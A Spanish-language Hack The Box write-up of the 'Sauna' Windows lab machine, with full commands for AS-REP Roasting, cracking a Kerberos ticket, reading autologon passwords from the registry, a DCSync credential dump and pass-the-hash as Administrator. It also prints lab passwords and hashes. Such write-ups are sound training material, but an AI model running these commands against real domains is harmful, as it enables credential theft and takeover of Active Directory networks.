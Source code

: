 ```yaml
---
title: HTB Sauna Write-up (Español)
tags: [HackTheBox, AS-REP Roasting, Active Directory, DCSync]
image: /assets/images/Sauna/1__i__enw5__Rg5ZLLoPDehOMqw.png
published: true
banner: true
---
```


I cloned my writeup that was originally posted on [medium](https://medium.com/@5ubterranean/htb-sauna-write-up-espa%C3%B1ol-67d4d0eff1c6)

Sauna es una máquina basada en Windows que estuvo activa desde el 15 de Febrero del 2020 hasta el 18 de Julio, para resolver esta máquina tendremos que crear una lista de posible usuarios basándonos en la información que encontramos en su página web, a falta de información probaremos si alguno de los supuestos usuarios es susceptible a AS-REP Roasting, tenemos exito consiguiendo un ticket del usuario “fsmith”, crackeamos la contraseña y conseguimos acceso al servidor, luego conseguimos la contraseña del usuario “svc\_loanmgr”, el cual se logea automáticamente al servidor, por lo que la encontramos en el registro de winlogon, por últimos realizamos un DC Sync con este usuario para conseguir el hash de administrador, y nos logeamos como dicho usuario realizando un pass the hash.

# Enumeración

Empezamos usando masscan para encontrar todos los puertos disponibles y luego usamos nmap para conseguir más información de los mismos.

masscan -e tun0 --rate=500 -p 0–65535 10.10.10.175  
nmap -sC -sV -p 57075,53,464,445,389,49673,80,3269,49686,135,88,9389,139,593,5985,4974,636,3268 -o scan.txt 10.10.10.175

```bash
PORT      STATE    SERVICE       VERSION  
53/tcp    open     domain?  
| fingerprint-strings:   
|   DNSVersionBindReqTCP:   
|     version  
|\_    bind  
80/tcp    open     http          Microsoft IIS httpd 10.0  
| http-methods:   
|\_  Potentially risky methods: TRACE  
|\_http-server-header: Microsoft-IIS/10.0  
|\_http-title: Egotistical Bank :: Home  
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-25 00:05:24Z)  
135/tcp   open     msrpc         Microsoft Windows RPC  
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
445/tcp   open     microsoft-ds?  
464/tcp   open     kpasswd5?  
593/tcp   open     ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp   open     tcpwrapped  
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
3269/tcp  open     tcpwrapped  
4974/tcp  filtered unknown  
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|\_http-server-header: Microsoft-HTTPAPI/2.0  
|\_http-title: Not Found  
9389/tcp  open     mc-nmf        .NET Message Framing  
49673/tcp open     msrpc         Microsoft Windows RPC  
49686/tcp open     msrpc         Microsoft Windows RPC  
57075/tcp filtered unknown
```

Por el escaneo vemos que es un común Windows server, aunque lo que destaca es tener el puerto 80 abierto, antes de revisarlo revisamos LDAP/RPC. `ldapsearch -x -h 10.10.10.175 -b “DC=EGOTISTICAL-BANK,DC=LOCAL”`

![](/assets/images/Sauna/1__x__NmKW4wMMgo6nL3MU4LLg.png)


No tenemos acceso a los usuarios del servidor, aunque encontramos una unidad organizacional llamada Hugo Smith, la cual podría ser también el nombre de un usuario, ya que no encontramos más información relevante, visitamos la página web.

![](/assets/images/Sauna/1__yMfXep__hqVl8JLFbgIanaQ.png)


La página parece ser la de una especie de banco, aunque no pudimos identificar ninguna vulnerabilidad en ella, lo más relevante lo encontramos en [http://10.10.10.175/about.html](http://10.10.10.175/about.html).

![](/assets/images/Sauna/1__AQDv__cnskT86mFbd0FDAbw.png)


La página tiene una sección de los integrantes de la empresa, una práctica común para crear los usuarios es tomar la primera letra del nombre, el apellido y juntarlos, a veces se pone un punto en medio, así que asumiendo esta posibilidad creamos una lista de posibles usuarios usando [exrex](https://github.com/asciimoo/exrex).

![](/assets/images/Sauna/1__DZUkdHaHhpx3BA4je4T2FA.png)


Así queda nuestra lista.

![](/assets/images/Sauna/1__MCGsVdAo1MTJmrCm0tu7bw.png)


# Ganando acceso

Usamos el módulo “kerberos\_enumusers” de metasploit para validar nuestros usuarios, vemos que “hsmith” existe, y obtenemos un error con el usuario “fsmith”, quitamos este usuario de la lista y lo reintentamos, pero no encontramos otro usuario válido, ahora tenemos 2 usuarios “hsmith” y “fsmith” el cual conservamos ya que no podemos descartarlo debido al error.

![](/assets/images/Sauna/1__yGZAbBPkn5Yw0AE6jP6TDQ.png)


Intentamos adivinar la contraseña de uno de los 2 usuarios con listas pequeñas de contraseñas comunes (usar listas grandes tomaría demasiado tiempo) y las palabras encontradas en el sitio web sin ningún éxito, así que probamos suerte con algunos ataques a AD, en este caso AS-REP Roasting tiene éxito, para hacerlo usamos el script “GetNPUsers.py” de Impacket: `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -u users.txt -dc-ip 10.10.10.175 -format john`

![](/assets/images/Sauna/1__n171AXkEUkcbWY__L63YsxQ.png)


Bien conseguimos un ticket con “fsmith”, procedemos a crackearlo con john y obtenemos que la contraseña es “Thestrokes23”.

![](/assets/images/Sauna/1__5oRGzcOxzTPa3Zh1__9ujag.png)


Nos conectamos al servidor usando evil-wirm y conseguimos el “user.txt”.

![](/assets/images/Sauna/1__OBHLx84VoAMgjTD__vtFzmA.png)


# Movimiento lateral

Como parte de la enumeración subimos y corremos [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) y este nos encuentras unas credenciales de autologon del usuario “svc\_loanmgr”.

![](/assets/images/Sauna/1__Irqga78KAXbLr04fWdML__A.png)


Cuando un usuario se logea automáticamente a una computadora, sus credenciales son guardadas en el registro de windows, estas se pueden recuperar con los comandos:  
`REG QUERY “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon” /v DefaultUserName`   
`REG QUERY “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon” /v DefaultPassword`

![](/assets/images/Sauna/1__dDlrV6Jhs659ov4h9XjTVQ.png)


# Escalación de privilegios

Con este nuevo usuario podemos realizar un DC Sync, para esto usamos el script secretsdump.py de Impacket: `python3 secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:’Moneymakestheworldgoround!’@10.10.10.175 -dc-ip 10.10.10.175`.

![](/assets/images/Sauna/1__EMqhIESL33O3bMKMNoxR7w.png)


Vemos que conseguimos los hashes LMNT de Administrador “Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::”, no necesitamos crackearlos ya que podemos hacer un pass the hash con ellos: `python3 psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff`.

![](/assets/images/Sauna/1__CqlxeJG2lhQs134TW__lg2Q.png)


Y con eso somos authority\\system y conseguimos el “root.txt”.

# Descargo de responsabilidad

Todos los recursos brindados en este post se hicieron puramente con fines educativos y de concientización, el autor no se hace responsable por las acciones que las personas puedan realizar con el contenido del mismo.